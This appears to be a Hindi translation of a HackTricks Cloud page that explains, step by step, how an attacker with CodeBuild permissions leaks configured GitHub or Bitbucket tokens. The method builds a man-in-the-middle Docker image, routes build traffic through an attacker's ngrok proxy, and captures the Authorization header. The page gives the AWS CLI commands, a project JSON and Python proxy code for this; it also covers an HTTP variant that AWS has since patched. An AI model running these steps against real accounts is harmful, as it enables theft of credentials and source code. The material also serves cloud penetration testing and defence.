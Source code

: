 # AWS Codebuild - टोकन लीकेज

<details>

<summary><strong>शून्य से लेकर हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें.

</details>

## Github/Bitbucket कॉन्फ़िगर किए गए टोकन्स की पुनर्प्राप्ति

सबसे पहले, जांचें कि क्या कोई सोर्स क्रेडेंशियल्स कॉन्फ़िगर किए गए हैं जिन्हें आप लीक कर सकते हैं:
```bash
aws codebuild list-source-credentials
```
### डॉकर इमेज के माध्यम से

यदि आप पाते हैं कि उदाहरण के लिए Github के लिए प्रमाणीकरण खाते में सेट है, तो आप **access** (**GH token या OAuth token**) को **exfiltrate** कर सकते हैं जिससे Codebuild को विशेष डॉकर इमेज का उपयोग करके प्रोजेक्ट का निर्माण चलाने के लिए बनाया जा सकता है।

इस उद्देश्य के लिए आप एक नया Codebuild प्रोजेक्ट **create** कर सकते हैं या मौजूदा के **environment** को बदलकर **Docker image** सेट कर सकते हैं।

आप जिस Docker इमेज का उपयोग कर सकते हैं वह है [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)। यह एक बहुत ही बुनियादी Docker इमेज है जो **env variables `https_proxy`**, **`http_proxy`** और **`SSL_CERT_FILE`** सेट करेगी। इससे आप **`https_proxy`** और **`http_proxy`** में इंगित होस्ट के अधिकांश ट्रैफिक को इंटरसेप्ट करने और **`SSL_CERT_FILE`** में इंगित SSL CERT को भरोसा करने की अनुमति मिलेगी।

1. **अपनी खुद की Docker MitM इमेज बनाएं और अपलोड करें**
* रेपो के निर्देशों का पालन करें अपने प्रॉक्सी IP पते को सेट करने के लिए और अपने SSL सर्ट को सेट करें और **build the docker image**।
* **`http_proxy`** सेट न करें ताकि मेटाडेटा एंडपॉइंट के लिए अनुरोधों को इंटरसेप्ट न किया जा सके।
* आप **`ngrok`** का उपयोग कर सकते हैं जैसे `ngrok tcp 4444` अपने होस्ट के लिए प्रॉक्सी सेट करने के लिए।
* एक बार जब आपके पास Docker इमेज बन जाती है, तो इसे किसी सार्वजनिक रेपो (Dockerhub, ECR...) में **upload** करें।
2. **environment सेट करें**
* एक **नया Codebuild प्रोजेक्ट** बनाएं या मौजूदा के environment को **modify** करें।
* प्रोजेक्ट को **पहले से जनरेट की गई Docker इमेज** का उपयोग करने के लिए सेट करें।

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

3. **अपने होस्ट में MitM प्रॉक्सी सेट करें**

* **Github रेपो** में इंगित के अनुसार आप कुछ इस तरह का उपयोग कर सकते हैं:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy संस्करण जो इस्तेमाल किया गया था वह 9.0.1 था**, यह बताया गया कि संस्करण 10 के साथ यह काम नहीं कर सकता है।
{% endhint %}

4. **बिल्ड चलाएं और क्रेडेंशियल्स कैप्चर करें**

*   आप **Authorization** हेडर में टोकन देख सकते हैं:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

यह aws cli के साथ भी किया जा सकता है जैसे कि

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP प्रोटोकॉल के माध्यम से~~

{% hint style="success" %}
**यह कमजोरी AWS द्वारा 20 फरवरी 2023 के सप्ताह में किसी समय सही कर दी गई थी (मुझे लगता है शुक्रवार को)। इसलिए अब एक हमलावर इसका दुरुपयोग नहीं कर सकता :)**
{% endhint %}

एक हमलावर जिसके पास **CodeBuild में उच्च अनुमतियां हों, Github/Bitbucket टोकन को लीक कर सकता है** जो कॉन्फ़िगर किया गया हो या यदि अनुमतियां OAuth के माध्यम से कॉन्फ़िगर की गई हों, तो **कोड तक पहुंचने के लिए इस्तेमाल किया गया अस्थायी OAuth टोकन**।

* एक हमलावर CodeBuild प्रोजेक्ट में पर्यावरण चर **http\_proxy** और **https\_proxy** जोड़ सकता है जो उसकी मशीन की ओर इशारा करते हैं (उदाहरण के लिए `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* फिर, github रेपो के URL को HTTP का उपयोग करने के लिए HTTPS के बजाय बदलें, उदाहरण के लिए: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* फिर, प्रॉक्सी चर (http\_proxy और https\_proxy) द्वारा इंगित पोर्ट पर [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बेसिक उदाहरण चलाएं
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* अंत में, **Build the project** पर क्लिक करें, **credentials** स्पष्ट पाठ (base64) में mitm पोर्ट पर **भेजे जाएंगे**:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
अब एक हमलावर अपनी मशीन से टोकन का उपयोग कर सकता है, सभी अधिकारों की सूची बना सकता है और CodeBuild सेवा का सीधे उपयोग करने से आसानी से (दुरुपयोग) कर सकता है।
{% endhint %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप HackTricks में अपनी **कंपनी का विज्ञापन देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें।
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह।
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें।
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
